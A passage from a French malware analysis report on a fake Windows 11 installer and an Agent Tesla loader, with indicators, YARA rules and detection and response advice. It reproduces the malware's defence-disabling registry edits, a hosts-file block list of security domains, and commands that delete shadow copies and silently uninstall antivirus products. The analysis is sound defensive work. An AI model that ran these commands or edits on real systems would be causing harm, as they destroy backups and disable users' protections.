| `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\MpEngine` : `MpEnablePus=0` | Désactive la mise à jour des signatures |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\UX Configuration` : `Notification_Suppress=1` | Supprime les notifications |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Windows Defender Exploit Guard\Controlled Folder Access` : `EnableControlledFolderAccess=0` | Désactive la protection des dossiers |
| `HKLM\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications` : `DisableEnhancedNotifications=1` | Supprime les alertes |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System` : `EnableSmartScreen=0` | Désactive SmartScreen |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer` : `SmartScreenEnabled=OFF` | Désactive SmartScreen |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows\Explorer` : `DisableNotificationCenter=1` | Désactive le centre de notifications |
| `HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\PushNotifications` : `ToastEnabled=0` | Désactive les toasts |
| `HKLM\SOFTWARE\Policies\Microsoft\Windows NT\SystemRestore` : `DisableConfig=1`, `DisableSR=1` | Désactive la restauration système |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Attachments` et `HKCU\...\Attachments` : `SaveZoneInformation=1`, `ScanWithAntiVirus=1` | Contourne le MOTW |
| `HKLM\SOFTWARE\Policies\Microsoft\MRT` : `DontOfferThroughWUAU=1`, `DontReportInfectionInformation=1` | Réduit les rapports |
| `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` : suppression de `emsisoft anti-malware` | Supprime l'autostart Emsisoft |

### 15.4 Fichier hosts

19 domaines ajoutés en `0.0.0.0` :

```
checkappexec.microsoft.com
smartscreen-prod.microsoft.com
nav.smartscreen.microsoft.com
nf.smartscreen.microsoft.com
safebrowsing.googleapis.com
ars.smartscreen.microsoft.com
apprep.smartscreen.microsoft.com
c.urs.microsoft.com
feedback.smartscreen.microsoft.com
ping.nav.smartscreen.microsoft.com
ping.nf.smartscreen.microsoft.com
t.nav.smartscreen.microsoft.com
t.nf.smartscreen.microsoft.com
t.urs.microsoft.com
unitedstates.smartscreen.microsoft.com
unitedstates.smartscreen-prod.microsoft.com
urs.microsoft.com
urs.smartscreen.microsoft.com
slscr.update.microsoft.com
```

### 15.5 Commandes

```
vssadmin delete shadows /all /quiet
wmic product where name="ESET Security" call uninstall /nointeractive
wmic product where name="AntimalwareEngine" call uninstall /nointeractive
wmic product where name="OnlineThreatsEngine" call uninstall /nointeractive
wmic product where name="FirewallEngine" call uninstall /nointeractive
wmic product where name="Emsisoft Anti-Malware" call uninstall /nointeractive
cmd /c "%ProgramFiles%\Malwarebytes\Anti-Malware\mbuns.exe" /uninstall /verysilent /f
del %0
```

### 15.6 Certificat de `rp.exe`

| Champ | Valeur |
|---|---|
| Subject / Issuer | `CN=Sordum Software` (auto-signé) |
| Validité | 2005-12-31 → 2025-12-31 |
| SHA-256 fingerprint | `93:33:E2:DF:EE:83:6F:88:AF:7A:81:A5:F8:0C:19:79:8D:39:23:4F:1A:F9:8E:EE:CA:66:1E:13:BB:45:BD:AB` |
| Algorithme de digest | SHA-1 |
| Horodatage | chaîne GlobalSign TSA présente |
| Vérification | **échec : digest mismatch** |

Ce certificat appartient probablement à l'éditeur légitime Sordum ; il ne doit pas être bloqué comme un IoC malveillant. En revanche, la **signature invalide** sur ce binaire est un indicateur fort de modification.

### 15.7 Chaînes et marqueurs

| Élément | Contexte |
|---|---|
| `PowerRun:v1.5` | `rp.exe` (outil légitime détourné) |
| `TransducerExtractor`, `Transduce`, `_myStudio`, `GetExportedTypes` | Loader .NET |
| `Sikl`, `GcfN` | Ressources managées |
| `_-__-__-_TerraGenEnterprise_-_4763664E_-_7A7168` | Chaîne d'arguments du loader |
| `System Cleaner Pro` | Stage 2 |
| `GoodMorning` | Overlay du `.scr` |
| `Windows11InstaIIationAssistant` | Nom du `.scr` |
| `This installation was built with Inno Setup.` | Installateur |

### 15.8 Réseau

Aucune adresse C2, aucun domaine d'exfiltration et aucune URL de configuration n'a été identifiée en clair. Les seules chaînes réseau sont :

- `www.sordum.org`, site de l'éditeur légitime PowerRun ;
- les domaines Microsoft/Google ajoutés au fichier hosts, qui sont des cibles de blocage et non des C2.

La configuration Agent Tesla est probablement chiffrée ou construite à l'exécution ; elle n'est pas accessible statiquement. Une analyse dynamique avec capture réseau serait nécessaire pour l'extraire.

---

## Bilan et limites

Les deux échantillons illustrent deux approches différentes :

- **l'installateur** est une chaîne de dropper complète : un conteneur Inno Setup avec des métadonnées usurpées, quatre fichiers embarqués, un outil d'élévation (PowerRun), un script de neutralisation des défenses et deux loaders packés. L'ordre exact d'exécution n'est pas prouvé, mais la combinaison est cohérente avec une attaque visant à désactiver les protections avant de lancer la charge utile ;
- **Agent Tesla** est un loader .NET qui cache un PE dans une bitmap, le reconstruit pixel par pixel et le charge par réflexion. Le stage 2 est obfusqué et corrompu volontairement pour gêner les outils .NET. Le loader ne touche pas au disque, ce qui le rend plus discret.

Je n'ai pas établi de lien direct entre les deux échantillons. Ils peuvent appartenir à des campagnes différentes ou à des maillons différents d'une même chaîne, mais les artefacts ne permettent pas de l'affirmer.

Les principales limites sont l'absence d'analyse dynamique, l'impossibilité de récupérer le script Pascal Inno, le packing non défait de `yb.exe` et du `.scr`, et l'obfuscation du stage 2. Pour aller plus loin, il faudrait exécuter les échantillons dans une VM instrumentée (Procmon, Sysmon, capture réseau, capture mémoire), puis analyser le stage 2 en mémoire avec `dnSpy`/`de4dot` et surveiller les créations de processus, les écritures registre et les connexions sortantes.

---

## Recommandations

### Détection

1. Déployer les règles YARA améliorées et les tester sur le parc avant production.
2. Ajouter des règles Sigma/EDR sur :
   - modifications `ConsentPromptBehaviorAdmin`, `EnableSmartScreen`, `DisableSR`, `SaveZoneInformation` ;
   - `vssadmin delete shadows` ;
   - `wmic product ... call uninstall` ciblant des antivirus ;
   - écritures dans `%TEMP%\au\` et `%SystemDrive%\tmp\lfd.cmd` ;
   - exécution de `.scr` depuis un répertoire d'application ;
   - exécution de PowerRun renommé (chaînes `PowerRun:v1.5`) ou de binaires non signés portant ces chaînes.
3. Surveiller les processus `reg.exe`, `wmic.exe`, `vssadmin.exe` et `cmd.exe` lancés par un installateur Inno Setup.

### Durcissement

- Activer la protection contre les falsifications de Defender et SmartScreen.
- Restreindre l'exécution de scripts batch et de binaires non signés via AppLocker/WDAC.
- Bloquer ou contrôler PowerRun et les autres outils d'élévation non approuvés.
- Activer la journalisation PowerShell/CMD et la surveillance du fichier hosts.
- Sensibiliser les utilisateurs aux faux installateurs de Windows 11.

### Réponse à incident

- Isoler la machine et collecter la mémoire : le stage 2 Agent Tesla est chargé en mémoire, sans fichier disque.
- Rechercher les artefacts listés à l'étape 15 (fichiers, registre, hosts).
- Vérifier les journaux de création de processus autour de l'exécution de l'installateur.
- Bloquer les hachages et les domaines identifiés, puis reconstruire les règles de détection à partir des artefacts confirmés.

---

## Annexe A — Règles YARA

::: {.yara-listing}
```yara
rule Fake_Win11_Inno_Dropper
{
    meta:
        description = "Faux installateur Windows 11 base sur Inno Setup avec metadonnees usurpees"
        author = "Chikhaoui Youcef Chihab Eddine"
        date = "2026-10-20"
    strings:
        $inno = "This installation was built with Inno Setup" ascii wide
        $app1 = "Windows11InstallationAssistant" ascii wide
        $app2 = "Windows11InstaIIationAssistant" ascii wide
        $ms   = "Microsoft Corporation" ascii wide
        $zlb  = "zlb" ascii
    condition:
        uint16(0) == 0x5A4D and $inno and $ms and 1 of ($app*) and $zlb and filesize > 5MB
}

rule AgentTesla_Resource_Loader
{
    meta:
        description = "Loader .NET a ressource bitmap (Sikl) et chargement reflechi"
        author = "Chikhaoui Youcef Chihab Eddine"
        date = "2026-10-20"
    strings:
        $a = "TransducerExtractor" ascii
        $b = "InvokeMember" ascii
        $c = "Sikl" wide
        $d = "_myStudio" ascii
        $e = "TerraGenEnterprise" ascii wide
        $f = "GetExportedTypes" ascii
    condition:
        uint16(0) == 0x5A4D and 3 of them
}

rule HackTool_Win_PowerRun
{
    meta:
        description = "Outil legitime Sordum PowerRun (souvent reutilise pour l'elevation de privileges)"
        author = "Chikhaoui Youcef Chihab Eddine"
        date = "2026-10-20"
    strings:
        $a = "PowerRun:v1.5" wide
        $b = "PowerRun has been created to run Applications with Elevated Privileges" wide
        $c = "Sordum Software" ascii wide
    condition:
        uint16(0) == 0x5A4D and 2 of them
}

rule Packed_VB6_Scr_Overlay
{
    meta:
        description = "Stub VB6 packe avec overlay chiffre marque GoodMorning"
        author = "Chikhaoui Youcef Chihab Eddine"
        date = "2026-10-20"
    strings:
        $m  = "GoodMorning" ascii
        $vb = "mSvbVm60.dLl" ascii nocase
    condition:
        uint16(0) == 0x5A4D and $m and $vb and filesize > 5MB
}

rule Packed_Yb_MSIL_Loader
{
    meta:
        description = "Loader PE packe contenant des chaines .NET (mscoree) et api-ms-win-core-synch"
        author = "Chikhaoui Youcef Chihab Eddine"
        date = "2026-10-20"
    strings:
        $mscoree = "mscoree.dll" ascii wide
        $synch   = "api-ms-win-core-synch-l1-2-0" ascii wide
    condition:
        uint16(0) == 0x5A4D and $mscoree and $synch and filesize < 2MB
}
```
:::

---

## Annexe B — Commandes principales

```bash
# Identification et hachages
file --mime-type windows11-setup_11_45288.exe agentTesla.exe
sha256sum windows11-setup_11_45288.exe agentTesla.exe
python3 pe_imphash.py windows11-setup_11_45288.exe agentTesla.exe

# En-têtes et imports
readpe -h coff windows11-setup_11_45288.exe
readpe -h optional windows11-setup_11_45288.exe
readpe -i windows11-setup_11_45288.exe | grep "Name:" | head -n 25

# Chaînes et entropie
floss -q --only static -- agentTesla.exe
python3 section_entropy.py windows11-setup_11_45288.exe agentTesla.exe

# DIE, rizin, extraction Inno
diec windows11-setup_11_45288.exe
rizin -q -e scr.color=0 -c 'aa; s entry0; agC' windows11-setup_11_45288.exe
innoextract -e -d /tmp/opencode/inno_out windows11-setup_11_45288.exe
innoextract -l windows11-setup_11_45288.exe | grep -E 'rp\.exe|yb\.exe|lfd\.cmd|\.scr'

# .NET
monodis --output=agentTesla_disasm.il agentTesla.exe
grep -nE 'GetObject\("Sikl"|Transduce|InvokeMember|CreateInstance' agentTesla_disasm.il

# YARA et capa
xargs -a samples.txt -n1 yara detection_pe_improved.yar
capa -q agentTesla.exe
```
